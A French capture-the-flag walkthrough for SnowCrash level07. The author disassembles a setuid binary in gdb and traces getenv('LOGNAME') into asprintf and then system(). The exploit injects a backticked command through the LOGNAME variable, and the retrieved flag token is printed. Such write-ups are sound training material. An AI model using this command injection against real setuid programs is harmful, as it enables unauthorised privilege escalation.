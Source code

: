 ```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
Un seul fichier cette fois ci, executé avec les droits de flag07, on commence à avoir l'habitude.
```
level07@SnowCrash:~$ ./level07 testarg  
level07
```
Pas de sources pour l'accompagner, on va devoir utiliser `gdb` pour comprendre son fonctionnement.  
`level07@SnowCrash:~$ gdb level07`:
```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:	push   ebp
   0x08048515 <+1>:	mov    ebp,esp
   0x08048517 <+3>:	and    esp,0xfffffff0
   0x0804851a <+6>:	sub    esp,0x20
   0x0804851d <+9>:	call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:	mov    DWORD PTR [esp+0x18],eax
   0x08048526 <+18>:	call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804852f <+27>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048533 <+31>:	mov    DWORD PTR [esp+0x8],eax
   0x08048537 <+35>:	mov    eax,DWORD PTR [esp+0x18]
   0x0804853b <+39>:	mov    DWORD PTR [esp+0x4],eax
   0x0804853f <+43>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048543 <+47>:	mov    DWORD PTR [esp],eax
   0x08048546 <+50>:	call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804854f <+59>:	mov    DWORD PTR [esp+0x8],eax
   0x08048553 <+63>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048557 <+67>:	mov    DWORD PTR [esp+0x4],eax
   0x0804855b <+71>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804855f <+75>:	mov    DWORD PTR [esp],eax
   0x08048562 <+78>:	call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:	mov    DWORD PTR [esp+0x14],0x0
   0x0804856f <+91>:	mov    DWORD PTR [esp],0x8048680
   0x08048576 <+98>:	call   0x8048400 <getenv@plt> ; 1
   0x0804857b <+103>:	mov    DWORD PTR [esp+0x8],eax
   0x0804857f <+107>:	mov    DWORD PTR [esp+0x4],0x8048688
   0x08048587 <+115>:	lea    eax,[esp+0x14]
   0x0804858b <+119>:	mov    DWORD PTR [esp],eax
   0x0804858e <+122>:	call   0x8048440 <asprintf@plt> ; 2
   0x08048593 <+127>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048597 <+131>:	mov    DWORD PTR [esp],eax
   0x0804859a <+134>:	call   0x8048410 <system@plt> ; 3
   0x0804859f <+139>:	leave  
   0x080485a0 <+140>:	ret    
End of assembler dump.
```
Les parties qui nous interessent sont les suivantes (j'ai indiqué dans le dump les emplacements correspondants avec les commentaires`;`:  
1. Recuperation d'une variable environnement avec `getenv`
2. Creation d'une string avec `asprintf`
3. Execution d'une commande avec `system`

Dans le détail:
```gdb
(gdb) b *0x08048576
Breakpoint 1 at 0x8048576: file /home/user/level07/level07.c, line 21.
...
   0x0804856f <+91>:	movl   $0x8048680,(%esp)
=> 0x08048576 <+98>:	call   0x8048400 <getenv@plt>
...
(gdb) x/s 0x8048680
0x8048680:	"LOGNAME"
```
On recupere donc la valeur de la variable d'environnement LOGNAME... mais que fait-on avec ?
```
level07@SnowCrash:~$ LOGNAME=test ./level07 
test
```
Allons voir dans `asprintf`:
```gdb
(gdb) b *0x0804858e
Breakpoint 1 at 0x804858e: file /home/user/level07/level07.c, line 21.
...
   0x0804857b <+103>:	mov    DWORD PTR [esp+0x8],eax
   0x0804857f <+107>:	mov    DWORD PTR [esp+0x4],0x8048688
   0x08048587 <+115>:	lea    eax,[esp+0x14]
   0x0804858b <+119>:	mov    DWORD PTR [esp],eax
=> 0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
...
(gdb) x/s 0x8048688
0x8048688:	"/bin/echo %s "
```
On va donc creer une string avec `printf("/bin/echo %s ", LOGNAME)` et en avançant un peu on voit...
```gdb
...
   0x08048597 <+131>:	mov    DWORD PTR [esp],eax
=> 0x0804859a <+134>:	call   0x8048410 <system@plt>
...
(gdb) x/s $eax
0x804b070:	"/bin/echo level07 "
```
...qu'elle est appelée avec `system` !  
L'exploit devient évident:
```
level07@SnowCrash:~$ LOGNAME=\`getflag\` ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Le flag est donc `fiumuikeil55xe9cu4dood66h` ! :tada:

